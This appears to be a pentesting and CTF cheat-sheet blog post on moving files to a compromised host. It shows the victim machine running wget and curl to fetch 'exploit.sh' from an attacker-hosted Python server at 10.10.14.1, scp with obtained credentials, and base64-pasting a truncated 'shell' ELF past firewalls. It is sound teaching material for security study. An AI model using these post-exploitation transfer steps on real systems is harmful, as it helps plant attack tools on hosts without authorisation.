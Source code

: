 ```yaml
---
title: Quick filesharing techniques for Pentesters
subtitle: sharing files can be done in various ways..
description: Quick filesharing techniques for Pentesters
published: true
datePublished: 1641383870315
author: lwlx
authorTwitter: "0x0000005"
authorPhoto: /profile
tags:
  - ctf
  - filesharing
  - linux
  - wget
  - cheatsheet
  - hacking
thumbnailPhoto: /default.jpg
bannerPhoto: /default
canonicalUrl:
---
```


# **Transferring Files**

---

During any penetration testing exercise, it is likely that we will need to transfer files to the remote server, such as enumeration scripts or exploits, or transfer data back to our attack host. While tools like Metasploit with a Meterpreter shell allow us to use the `Upload` command to upload a file, we need to learn methods to transfer files with a standard reverse shell.

---

# **Using wget**

There are many methods to accomplish this. One method is running a [Python HTTP server](https://developer.mozilla.org/en-US/docs/Learn/Common_questions/set_up_a_local_testing_server) on our machine and then using `wget` or `cURL` to download the file on the remote host. First, we go into the directory that contains the file we need to transfer and run a Python HTTP server in it:

```
lwlx@cybertap[/cybertap]$ cd /tmp
lwlx@cybertap[/cybertap]$ python3 -m http.server 8000Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

```

Now that we have set up a listening server on our machine, we can download the file on the remote host that we have code execution on:

```
user@remotehost$ wget http://10.10.14.1:8000/exploit.sh......
Saving to: 'exploit.sh'

exploit.sh 100%[==============================================>] 144.86K  --.-KB/s    in 0.02s

2021-02-08 18:09:19 (8.16 MB/s) - 'exploit.sh' saved [14337/14337]

```

Note that we used our IP `10.10.14.1` and the port our Python server runs on `8000`. If the remote server does not have `wget`, we can use `cURL` to download the file:

```
user@remotehost$ curl http://10.10.14.1:8000/exploit.sh -o exploit.sh
100  144k  100  144k    0     0  176k      0 --:--:-- --:--:-- --:--:-- 176k

```

Note that we used the `-o` flag to specify the output file name.

---

# **Using SCP**

Another method to transfer files would be using `scp`, granted we have obtained ssh user credentials on the remote host. We can do so as follows:

```
lwlx@cybertap[/cybertap]$ scp exploit.sh user@remotehost:/tmp/exploit.shuser@remotehost's password: **********
exploit.sh

```

Note that we specified the local file name after `scp`, and the remote directory will be saved to after the `:`.

---

# **Using Base64**

In some cases, we may not be able to transfer the file. For example, the remote host may have firewall protections that prevent us from downloading a file from our machine. In this type of situation, we can use a simple trick to [base64](https://linux.die.net/man/1/base64) encode the file into `base64` format, and then we can paste the `base64` string on the remote server and decode it. For example, if we wanted to transfer a binary file called `shell`, we can `base64` encode it as follows:

```
lwlx@cybertap[/cybertap]$ base64 shell -w 0f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA.....lIuy9iaW4vc2gAU0iJ51JXSInmDwU

```

Now, we can copy this `base64` string, go to the remote host, and use `base64 -d` to decode it, and pipe the output into a file:

```
user@remotehost$ echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA.....lIuy9iaW4vc2gAU0iJ51JXSInmDwU | base64 -d > shell
```

---

# **Validating File Transfers**

To validate the format of a file, we can run the [file](https://linux.die.net/man/1/file) command on it:

```
user@remotehost$ file shell
shell: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, no section header

```

As we can see, when we run the `file` command on the `shell` file, it says that it is an ELF binary, meaning that we successfully transferred it. To ensure that we did not mess up the file during the encoding/decoding process, we can check its md5 hash. On our machine, we can run `md5sum` on it:

```
lwlx@cybertap[/cybertap]$ md5sum shell
321de1d7e7c3735838890a72c9ae7d1d shell

```

Now, we can go to the remote server and run the same command on the file we transferred:

```
user@remotehost$ md5sum shell
321de1d7e7c3735838890a72c9ae7d1d shell

```

As we can see, both files have the same md5 hash, meaning the file was transferred correctly. There are various other methods for transferring files.



# CheatSheet

<table>
<thead>
  <tr>
    <th colspan="2">Transferring Files</th>
  </tr>
</thead>
<tbody>
  <tr>
    <td><code>python3 -m http.server 8000<code></td>
    <td>Start a local webserver</td>
  </tr>
  <tr>
    <td><code>wget http://10.10.14.1:8000/exploit.sh<code></td>
    <td>Download a file on the remote server from our local machine</td>
  </tr>
  <tr>
    <td><code>curl http://10.10.14.1:8000/exploit.sh -o exploit.sh<code></td>
    <td>Download a file on the remote server from our local machine</td>
  </tr>
  <tr>
    <td><code>scp exploit.sh user@remotehost:/tmp/exploit.sh<code></td>
    <td>Transfer a file to the remote server with scp (requires SSH access)</td>
  </tr>
  <tr>
    <td><code>base64 shell -w 0<code></td>
    <td>Convert a file to base64</td>
  </tr>
  <tr>
    <td><code>echo f0VMR...SNIO...InmDwU | base64 -d &gt; shell</code></td>
    <td>Convert a file from <code>base64<code> back to its orig</td>
  </tr>
  <tr>
    <td><code>md5sum shell<code></td>
    <td>Check the file's <code>md5sum<code> to ensure it converted correctly</td>
  </tr>
</tbody>
</table>